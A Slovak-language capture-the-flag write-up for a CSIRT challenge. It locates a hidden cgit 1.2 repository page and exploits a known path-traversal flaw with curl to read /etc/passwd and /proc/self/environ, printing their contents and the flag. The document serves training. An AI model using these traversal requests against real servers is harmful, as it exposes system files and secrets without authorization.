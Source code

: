 # Zadanie #

> Hi, TCC-CSIRT analyst,
> 
> do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.
> 
> - The entry point to LORE is at [http://intro.lore.tcc](http://intro.lore.tcc "http://intro.lore.tcc").

> See you in the next incident!
> 
> **Hint1:**
> Be sure you enter flag for correct chapter.


----------

# Riešenie #

Na stránke intro máme 4 slajdy, každý pre kždú kapitolu. Každý obsahuje nejakú vetu, ktorá sa zdá byť nejakým dodatočným hintom

> [1 Travel](http://cgit.lore.tcc/ "1 Travel")
> 
> In the gentle sway,
> Seeking calm within the storm,
> A path unfolds clear.
> 
> Footsteps brave the tide,
> Guided by a steadfast light,
> Through trials we stride.

Navštívime stránku http://cgit.lore.tcc/, kde síce vidíme 

    			CGIT Source Control System
    This area is restricted to authorized personnel only.

ale v zdrojáku vidíme zakomentovaný odkaz na podstránku z repozotármi

    <p>Manage and browse your source code repositories with CGIT.</p>
    <a href="/cgit.cgi" class="button">Go to Repositories</a>

Vidíme tu repozitáre foo a sam-operator, po podrobnejšej analýze vidíme, že sa jedná o repozitár súvisiaci s úlohou 4 - Sam a zároveň vidíme, že sa bude pohybovať aj okolo kubernetes. Nikde nevidím žiadnu vlajku v commitoch, pozrel som všetko, čiastočne pochopil aj čo bude asi v poslednej úlohe, ale tým sa teraz zaťažovať nejdem. Čo ma však zaujalo najviac, je použitie zobrazenie gitu používaju nejaký cgit, o ktorom som doteraz ani nepočul. Zamerám sa na to, či neobsahuje nejaké známe zraniteľnosti, v päte webu vidíme aj verziu 1.2, čo nám snáď zuži množinu toho, čo skúšať.

Dáme do google cgit vulnerability a hneď prvý odkaz https://www.exploit-db.com/exploits/45148 nám napovedá, že je tam v tejto verzii zraniteľnosť vo forme path traversal na endpointe `/cgit.cgi/git/{repozitár}/?path=../../../../../../../etc/passwd`

    $ curl http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../../../etc/passwd

	root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

skúsime, či tu nie je súbor s vlajkou flag.txt, štandardne býva uložený v koreňovom priečinku /flag.txt, ale to nám vráti 404 - Not Found chybu... Skúsil som zadať rôzne cesty k valjky, ale žiadna neviedla k úspechu. Po dlhšom čase som skúsil nehľadať súbory ako také, ale ako som zistil, napríklad premenné prostredia dokážeme zobraziť pomocou cesty v súborovom systéme, konkrétne `/proc/self/environ`

	C:\Users\Majino\Documents\catch2024>curl http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../../../proc/self/environ                                                               Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider "--output <FILE>" to save to a file.  

                                                                                                                                                                                                                    	C:\Users\Majino\Documents\catch2024>curl http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../../../proc/self/environ --output -                                                    FLAG=FLAG{FiqE-rPQL-pUV4-daQt}HTTP_HOST=cgit.lore.tccHTTP_X_REQUEST_ID=c829ae217cbf92049c2df4c1f9844c29HTTP_X_REAL_IP=10.200.0.13HTTP_X_FORWARDED_FOR=10.200.0.13HTTP_X_FORWARDED_HOST=cgit.lore.tccHTTP_X_FORWARDED_PORT=80HTTP_X_FORWARDED_PROTO=httpHTTP_X_FORWARDED_SCHEME=httpHTTP_X_SCHEME=httpHTTP_USER_AGENT=curl/8.9.1HTTP_ACCEPT=*/*PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binSERVER_SIGNATURE=<address>Apache/2.4.61 (Debian) Server at cgit.lore.tcc Port 80</address>                                                                                 SERVER_SOFTWARE=Apache/2.4.61 (Debian)SERVER_NAME=cgit.lore.tccSERVER_ADDR=192.168.73.67SERVER_PORT=80REMOTE_ADDR=192.168.73.113DOCUMENT_ROOT=/var/www/htmlREQUEST_SCHEME=httpCONTEXT_PREFIX=CONTEXT_DOCUMENT_ROOT=/var/www/htmlSERVER_ADMIN=[no address given]SCRIPT_FILENAME=/var/www/html/cgit.cgiREMOTE_PORT=50124GATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/1.1REQUEST_METHOD=GETQUERY_STRING=path=../../../../../../../proc/self/environREQUEST_URI=/cgit.cgi/foo/objects/?path=../../../../../../../proc/self/environSCRIPT_NAME=/cgit.cgiPATH_INFO=/foo/objects/PATH_TRANSLATED=/var/www/html/foo/objects/ 

A tu vidíme vlajku

----------

## Vlajka ##
    FLAG{FiqE-rPQL-pUV4-daQt}